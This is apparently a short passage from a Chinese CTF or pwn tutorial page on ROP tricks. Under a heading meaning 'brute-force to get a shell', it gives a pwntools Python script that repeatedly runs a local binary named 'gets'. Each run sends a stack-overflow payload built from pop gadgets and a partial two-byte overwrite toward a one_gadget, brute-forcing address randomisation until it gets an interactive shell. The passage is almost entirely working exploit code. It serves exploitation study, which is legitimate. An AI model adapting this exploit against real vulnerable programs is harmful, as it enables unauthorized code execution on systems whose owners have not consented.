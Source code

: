 ![Alt](img/wiki-ROPTricks5.png)

爆破拿到shell

```python
    from pwn import *

    if args['DEBUG']:
        context.log_level = 'debug'

    pop_chain = 0x000000000040059b # pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    # offset = 0x7fffffffde08 - 0x7fffffffdd78 = 144
    # one_gadget = 0x45216

    for i in range(0x1000):
        p = process('./gets',timeout=2)
        # gdb.attach(p)
        try:
            payload = 'A'*0x18 + p64(pop_chain)
            for j in range(2):
                payload += 'a'*40 + p64(pop_chain)
            payload += 'a'*40
            payload += p16(0x216)
            p.sendline(payload)
            p.sendline('ls')
            print p.recv()
            p.interactive()
            p.close()
        except Exception:
            p.close()
```
